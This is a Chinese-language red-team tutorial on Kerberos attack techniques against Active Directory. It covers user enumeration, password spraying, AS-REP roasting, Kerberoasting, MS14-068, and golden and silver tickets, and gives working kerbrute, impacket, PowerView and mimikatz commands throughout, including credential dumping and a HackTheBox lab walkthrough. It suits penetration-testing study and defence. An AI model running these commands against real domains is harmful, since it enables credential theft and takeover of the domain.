

# Kerberos协议攻击面总结(一)-先知社区

> **来源**: https://xz.aliyun.com/news/18659  
> **文章ID**: 18659

---

# 用户名枚举

在 Kerberos 协议认证的 AS-REQ 阶段，cname 的值是用户名。当用户不存在时，返回包提示错误。当用户名存在，密码正确和密码错误时，AS-REP 的返回包不一样。所以可以利用这点，对域内进行域用户枚举和密码喷洒等攻击。正常域用户登录主机，我们可以通过 "net user /domain" 来列举出域内的用户。但是当我们用非域用户进行登录时，是不能使用 "net user /domain" 这条命令的。或者当主机不在域内，但是能与域控通信时，我们可以通过域内用户枚举来探测域内的用户。在 AS-REQ 阶段客户端向  
AS 发送用户名，AS 对用户名进行验证，用户存在和不存在返回的数据包不一样。  
三种状态的错误代码分别为：  
✓ KRB5DC\_ERR\_PREAUTH\_REQUIRED 需要额外的预认证（用户存在）  
✓ KRB5DC\_ERR\_CLIENT\_REVOKED 客户端凭证已被吊销（禁用）  
✓ KRB5DC\_ERR\_C\_PRINCIPAL\_UNKNOWN 在 Kerberos 数据库中找不到客户端（不存在）  
当 用 户 名 存 在， 密 码 错 误： 返 回**KRB5DC\_ERR\_PREAUTH\_REQUIRED**， 并 携 带"e-data" 数据  
当用户名不存在：返回**KRB5DC\_ERR\_C\_PRINCIPAL\_UNKNOWN**，不携带 "e-data" 数据  
利用工具：  
<https://github.com/ropnop/kerbrute>

```
kerbrute_windows_amd64.exe userenum --dc 域控 ip -d 域名 用户名字典.txt
-t指定线程
用户字典：
https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt
```

**nmap实现**  
<https://nmap.org/nsedoc/scripts/krb5-enum-users.html>

```
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='<域名>',userdb=user_list IP
```

# Password Spraying

在常规的爆破中，我们都是先用很多密码去碰撞一个账号，这样很容易导致账号被锁定。而密码喷洒就是先用一个密码去碰撞很多账号，此方法能有效的避免账号被锁定的问题获取了域用户后，进行密码喷洒。  
在确认用户存在后，客户端又会发送一个 AS-REQ 请求，如果密码正确，则返回 AS-REP。否则返回 **KRB5KDC\_ERP\_PREAUTH\_FAILED**。  
<https://github.com/ropnop/kerbrute>

```
kerbrute passwordspray --dc 域控 ip -d 域名 用户名字典.txt 固定密码
passwordspray通过尝试一个常见密码来攻击多个用户帐户

kerbrute bruteuser --dc IP -d 0ne.test passwords.txt user
bruteuser表示要对指定的用户进行暴力破解攻击

kerbrute bruteforce --dc IP -d 0ne.test res.txt
bruteforce用户名&密码字典组合爆破  res.txt格式username:password
```

# AS-REP Roasting

`AS-REP Roasting`是红队在域渗透中常用的一种攻击技术，针对Kerberos认证协议中的配置弱点，主要利用目标账户设置为"不需要进行预身份验证"**Do not require Kerberos preauthentication**这一错误。在正常的Kerberos认证流程中，预身份验证是为了确保用户拥有正确的密码，即客户端在请求TGT(票据授予票据)时，需要通过加密的时间戳向KDC（密钥分发中心)证明自己的身份。然而，如果目标账户禁用了这一机制，红队攻击者可以直接向KDC请求该账户的加密凭据(AS-REP中的密文部分)。KDC会返回使用账户密码的哈希加密的票据(**向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式**)，然后可以离线破解这一密文，提取账户密码的明文，从而进一步扩展权限。  
这一技术的利用条件包括：目标账户必须被配置为"不需要预身份验证"，并且攻击者能够与KDC通信并知道目标账户的用户名。通过工具（如Impacket的`GetNPUsers.py`),攻击者可以快速枚举域内所有账户，并筛选出可被AS-REP Roasting的目标账户。由于这种攻击不需要目标账户的交互，也无需事先获取密码，能够在极低权限的情况下快速扩展攻击面。  
从红队的角度看，AS-REP Roasting的价值在于其隐蔽性和高效性。通过获取密文并在本地离线破解密码，可以避免触发警报，同时利用暴力破解技术恢复账户密码，为后续的横向移动和权限提升提供强大支持。成功的关键在于目标环境中是否存在配置错误的账户，而这种错误在安全基线未正确配置或管理员对账户管理不严格的情况下更为常见。AS-REP Roasting因其攻击门槛低、效果显著，是红队在域渗透中的常备手段之一。

**powerview实现**

```
#查询
Import-Module .\powerview.ps1
Get-DomainUser -PreauthNotRequired
#利用
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName <name> -Domain <domain> | Out-File -Encoding ASCII hash.txt
```

**impacket实现**

```
impacket-GetNPUsers -usersfile users -no-pass -request -format hashcat -dc-ip IP DOMAIN/

impacket-GetNPUsers.py -dc-ip IP DOMAIN/test:passwd -format john -outputfile hashes 指定test用户

```

* **-usersfile**：指定用户字典
* **-request**：直接请求用户的 AS-REP 哈希
* **-no-pass**：不使用密码认证（匿名请求或利用已有凭据）

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
hashcat hashs -m 18200 --force -a 0 /usr/share/wordlists/rockyou.txt
```

**nxc实现**

```
nxc ldap test.com -u users -p '' --asreproast asrep_users
```

# CVE-2022-33679

该漏洞导致攻击者可请求设置了**不要求 Kerberos 预身份验证**的用户的 TGT 票据 , 并对 AS-REP 中加密 session\_key 使用的密钥流进行破解，从而实现权限提升。  
该漏洞的利用，需要存在设置了“不要求 Kerberos 预身份验证”的用户，攻击者可在最多发送 1280 个请求后成功爆破密钥流，且不会触发域内密码策略导致账号锁定。  
参考：  
<https://www.silverfort.com/blog/technical-analysis-of-cve-2022-33679-and-cve-2022-33647-kerberos-vulnerabilities/>  
利用：  
<https://github.com/Bdenneu/CVE-2022-33679>

```
python CVE-2022-33079.py test.local/james VIRDIAN
export KRB5CCNAME=james_VIRDIAN.ccache
```

CVE-2022-33679 将传统的 AS-REPRoasting 提升到了一个新的高度，并为 AD 域的攻击提供了一个更为隐蔽的攻击及权限维持方式。

# Kerberos Roasting

**针对哪些账户**: 这种攻击针对的是那些关联了 Service Principal Name (SPN) 的账户。这通常是服务账户，例如数据库或web应⽤程序使⽤的账户。  
**攻击⽅法:** ⼀旦攻击者在 AD 环境中有⼀个有效的凭证（这不⼀定是⼀个⾼权限账户，普通⽤户凭证通常就⾜够了），他们就可以请求与特定 SPN 关联的服务票证。这些服务票证是使⽤服务账户的密码进⾏加密的。攻击者可以捕获这些票证并尝试离线破解，以获取服务账户的明⽂密码。  
SPN 简介：  
服务主体名称（SPN：ServicePrincipal Names）是服务实例（可以理解为一个服务，比如HTTP、MSSQL）的唯一标识符。Kerberos 身份验证使用 SPN 将服务实例与服务登录帐户相关联。如果在整个林或域中的计算机上安装多个服务实例，则每个实例都必须具有自己的 SPN。如果客户端可能使用多个名称进行身份验证，则给定服务实例可以具有多个 SPN。SPN 始终包含运行服务实例的主机的名称，因此服务实例可以为其主机的每个名称或别名注册 SPN。  
SPN 是唯一标识符，用于将域账户与服务及主机关联起来。如果想使用 Kerberos 协议来认证服务，那么必须正确配置 SPN。  
SPN 格式为 `serviceclass/host:port/servicename`  
**serviceclass** 可以理解为服务的名称，常见的有 WWW, LDAP, SMTP, DNS, HOST 等，HOST有两种形式，FQDN 和 NetBIOS 名，例如 server01.test.com 和 server01，如果服务运行在默认端口上，则端口号 (port) 可以省略  
Kerberoasting 关键点：  
**SPN 选择**：主机账号是特殊的服务账号，同样具有 SPN，密钥越简单，被破解的几率越大，但主机账号的口令由系统随机设置，几乎不能被破解，而且每 30 天自动变更一次。而服务账号存在很大的特殊性，口令在应用软件安装时由软件自动设定复杂度远低于主机账号，口令也几乎不会更改。所以优先选择服务账号。  
**加密降级**：加密算法也是越简单越好。windows2008 和 vista 操作系统之后，大部分报文采用 AES 加密，同时也会因为保证兼容支持 rc4\_hmac\_nt 加密，使用哪一种由客户端和与服务器协商，所以如果我们能控制客户端，就可以使用工具指定特定的，简单的加密算法。  
**使用setspn查询**  
系统自带的 setspn 工具，可以在在域内任意主机上执行的，不需要多高的权限，可用普通用户查询。

```
setspn -T <域名> -Q */*   //枚举域内所有 SPN
setspn -L sqlservice   //查询某个用户/机器的 SPN
```

**使用powerview查询**

```
Import-Module .\PowerView.ps1
Get-NetUser -spn
```

**使用Impacket查询&请求票据**

```
查询目标域中在用户帐户下运行的SPN
impacket-GetUserSPNs -dc-ip IP DOMAIN/username:passwd
请求票据
impacket-GetUserSPNs -dc-ip IP DOMAIN/username:passwd -request > hash
```

**使用bloodyAD查询**

```
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' get object "adam.silver" --attr servicePrincipalName
返回SPN即可进行kerberosroasting
```

**使用 mimikatz 请求票据**

```
privilege::debug
kerberos::ask /target:MSSQLSvc/sql.test.local:1433 /export
```

**使用tgsrepcrack破解TGS**  
<https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py>

```
python tgsrepcrack.py <字典.txt> <票据.kirbi>
```

# 无预身份认证的kerberos Roasting

参考文章：  
<https://www.semperis.com/blog/new-attack-paths-as-requested-sts/>  
一般来说Kerberoasting是需要获得至少一个域用户凭据后才能执行的操作。然而上面的文章中指出，可以利用某个用户的**DONT\_REQUIRE\_PREAUTH**属性，对其他用户发起Kerberoasting攻击。  
在这种新型的Kerberoasting方法中，攻击者无需控制任何Active Directory账户，仅通过操纵Kerberos AS-REQ请求中的`sname`字段，便可直接请求服务票据(Service Tickets,ST),绕过传统的TGT请求流程。这一技术显著简化了攻击步骤，降低了实施门槛。  
研究发现，`sname`字段通常被设置为`krbtgt/domain.local`以请求TGT。然而，当将其修改为目标服务的服务主体名称(SPN)时，域控制器(DC)会直接返回服务票据，而无需经过票据授予服务(TGS)。这种行为源于AS-REQ请求体未加密的特性，特别是在未启用Kerberos加固(FAST,Flexible Authentication Secure Tunneling).时，攻击者可以轻松拦截、修改并重放请求。  
通过这种方法，攻击者不仅可以使用已知账户发起请求，还可结合用户枚举生成的用户名列表逐一尝试。这对配置为无需预认证(**DONT\_REQ\_PREAUTH**)的账户尤为有效，因其允许攻击者在无需任何凭据的情况下直接获取服务票据中的加密数据，用于离线破解服务账户的长时密钥（如NTLM哈希)。  
`sname`字段的修改为Kerberoasting提供了一种全新的路径，兼具隐蔽性与高效性。

```
sudo impacket-GetUserSPNs -no-preauth test -usersfile users -dc-host IP test.com/
```

# Targeted Kerberoasting

**定向 Kerberoast 攻击**  
当控制目标具有 `GenericAll` 、 `GenericWrite` 、 `WriteProperty` 或 `Validated-SPN`，`writeSPN` 权限的对象时，可能会发生此类滥用。 [帐户操作员](https://www.thehacker.recipes/ad/movement/builtins/security-groups)组的成员通常拥有这些权限。  
<https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting>

```
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```

<https://github.com/ShutdownRepo/targetedKerberoast>  
 **bloodyAD和nxc实现攻击**

```
# 将SPN添加到目标帐户的属性
bloodyAD -d "$DOMAIN" --host "$DC_HOST" -u "$USER" -p "$PASSWORD" set object "$TARGET" servicePrincipalName -v 'http/anything'

nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -H "$NThash" --kerberoasting kerberoastables.txt
```

**PowerView实现攻击**

```
#查询SPN
Get-DomainUser 'maria' | Select serviceprincipalname
#设置SPN
Set-DomainObject -Identity 'maria' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}
#获取hash
$User = Get-DomainUser 'name'
$User | Get-DomainSPNTicket | fl
#痕迹清理，清除SPN
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

# MS14-068&CVE-2014-6324

MS14068 补丁编号是 **KB3011780**  
检测：

```
systeminfo |find "3011780"
```

该漏洞最本质的地方在于 Microsoft Windows Kerberos KDC 无法正确检查 Kerberos 票证请求随附的特权属性证书（PAC）中的有效签名，导致用户可以自己构造一张 PAC  
该漏洞可导致活动目录整体权限控制受到影响，允许攻击者将域内任意用户权限提升至域管理级别。通俗地讲，如果攻击者获取了域内任何一台计算机的Shell权限，同时知道任意域用户的用户名、SID、密码，即可获得域管理员权限，进而控制域控制器，最终获得域权限。  
**impacket实现**

```
impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
```

样本分析-红日靶场4

```
MS14-068.exe -u douser@DEMO.COM -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123
```

会生成TGT开头的ccache文件  
**使用mimikatz**  
 cmd执行`klist purge` 或 者 在 mimikatz 中 使 用 `kerberos::purge` 删 除 当 前 缓 存 的 kerberos 票据。

```
Kerberos：：list
```

klist命令通常用于列出当前用户在Kerberos身份验证系统中有效的票证信息

```
Kerberos::ptc C:\Users\douser\Desktop\TGT_douser@demo.com.ccache

```

或者利用mimikatz内置的漏洞直接执行

```
exploit::ms14068 /domain:dc.demo /user:w10 /password:1234567cd@ /ptt
```

通过psexec64获得shell

```
PsExec64.exe /accepteula /s \WIH-ENS2UR5TR3N cmd
```

样本分析-HTB\_Matis  
<https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html>  
**配置/etc/hosts**

```
10.10.10.52 mantis.htb.local mantis
```

**配置/etc/resolv.conf**

```
nameserver 10.10.10.52
nameserver 1.1.1.1
nameserver 1.0.0.1
nameserver 8.8.8.8
```

**安装依赖**

```
sudo apt-get install krb5-user cifs-utils rdate
```

**配置/etc/krb5.conf**

```
[libdefaults]
    default_realm = HTB.LOCAL

[realms]
    htb.local = {
        kdc = mantis.htb.local:88
        admin_serve = mantis.htb.local
        default_domain = htb.local
    }
[domain_realm]
    .domain.internal = htb.local
    domain.internal = htb.local
```

**生成Kerberos票据**

```
kinit -V james@HTB.LOCAL 请求票据
klist  显示票据
```

  
**获取SID**

```
┌──(kali㉿kali)-[~/htb_ad/matis]
└─$ rpcclient -U 'James'  10.10.10.52 
Password for [WORKGROUP\James]:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

**使用pykek生成黄金票据**

```
git clone https://github.com/mubix/pykek
cd pykek
python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d MANTIS.htb.local

cp TGT_james@htb.local.ccache /tmp/krb5cc_0
smbclient -W htb.local //mantis/c$ -k
get Users\james\desktop\user.txt
get Users\administrator\desktop\root.txt
```

# 黄金票据

在 Kerberos 认证中，Client 通过 AS( 身份认证服务 ) 认证后，AS 会给 Client 一个 **LogonSession Key** 和 TGT，而 **Logon Session Key** 并不会保存在 KDC 中， krbtgt 的 NTLM Hash 又 是 固 定 的， 所 以 只 要 得 到 krbtgt 的 NTLM Hash，就可以伪造 TGT 和 **Logon Session Key** 来进入下一步 Client 与 TGS 的交互。而已有了金票后 , 就跳过 AS 验证 , 不用验证账户和密码 ,所以也不担心域管密码修改。

在 kerberos 协议中，域服务器在返回域用户 A 一个 TGT 票据，当用户 A 想要访问域內某个服务是，用户 A 将保存的 TGT 票据发送给域服务器，域服务器对 TGT 票据进行校验，验证 TGT 票据是否合法。其判断主要依据，使用 krbtgt 账号的口令 htlm 值作为解密密钥，如果 顺利解密则票据合法，黄金票据利用 AS 和 TGS 之间的信任基础，即krbtgt 账号的口令 ntlm 值来攻击，如果已知 krbtgt 账号的 ntlm 值，只需清楚 TGT 票据的样式，就能构造任意账号的 TGT 票据。TGS 不验证 TGT 票据中账号身份的合法性，只要在 TGT 票据未超时的情况下，我们可以随意控制账号身份，包括禁用和不存在的账号。  
利用前提：

* 域名称
* 域的 SID 值
* 域的 KRBTGT 账号的 HASH
* 伪造任意用户名  
  （获取域的 SID 和 krbtgt 账号的 NTLM HASH 的前提是已经拿到了域管权限）  
  获取 krbtgt 账号口令 ntlm 值的方法有很多，前提需要获得域管权限。  
  **在域控上使用 mimikatz 命令**

```
privilege::debug # 开启特权模式
lsadump::lsa /patch # 获取 krbtgt 用户 hash
```

拿到域的 SID 值和域的 KRBTGT 账号的 HASH 后，切换到普通域主机和普通域用户权限上，使用 mimikatz 进行黄金票据攻击，/ptt 代表直接将票据注入会话。  
在 进 行 黄 金 票 据 攻 击 前， 我 们 先 使 用 `Kerberos::purge` 或 `klist purge` 命令将当前会话中的所有票据清除，确保伪造票据后会话中只有一个高权限的伪造的 TGT 票据。当前会话中有多个 TGT 票据时，系统将无法决定使用哪一个票据，而采用随机方式选取票据，可能导致测试失败。

```
Kerberos::golden/user:administrator /domain:<domain> /sid:<域sid> /krbtgt:<krbtgt_hash> /ptt
```

查看当前票据，并尝试 dir 域控，此时使用域名来访问而不是 ip 地址，因为使用域名默认采用 kerberos 协议认证，而 ip 方式则会使用 NTLM 协议认证，而黄金票据只对 kerberos 协议有效。

```
klist #查看当前票据
dir \dc01\c$
```

# 白银票据

白银票据之所以叫白银票据，是因为这种票据的威力不及黄金票据。  
在 kerberos 协议中，用户 A 使用 TGT 向域服务器请求访问服务 A的 TGS 票据，域服务器验证 TGT 合法性后返回一个 TGS 票据，使用服务 A 的口令 NTLM 值加密。用户将此 TGS 票据发送给服务 A，服务 A对此 TGS 票据进行合法性验证，如果通过则允许用户访问。 服务 A 验证了 TGS 票据后，不会到域服务器验证 TGS 票据的合法性，所以，如果我们拿到了服务 A 的 NTLM 值，可以伪造访问服务 A 的 TGS 票据，而且不会到域服务器验证，直接给我们访问服务的权限。

前提条件：

* 域名
* 域 SID
* 服务器 fqdn, 机器名 + 域名
* 可利用的服务
* 服务账户的 NTLM 哈希
* 伪造的用户名即任意用户名

```
privilege::debug
#获取服务账户hash
lsadump::lsa /patch 或 sekurlsa::logonpasswords
#制作票据
kerberos::golden /domain:test.local /sid:<域sid> /target:dc01.test.local /service:cifs /rc4:<服务账户hash> /user:admiistrator /ptt
```
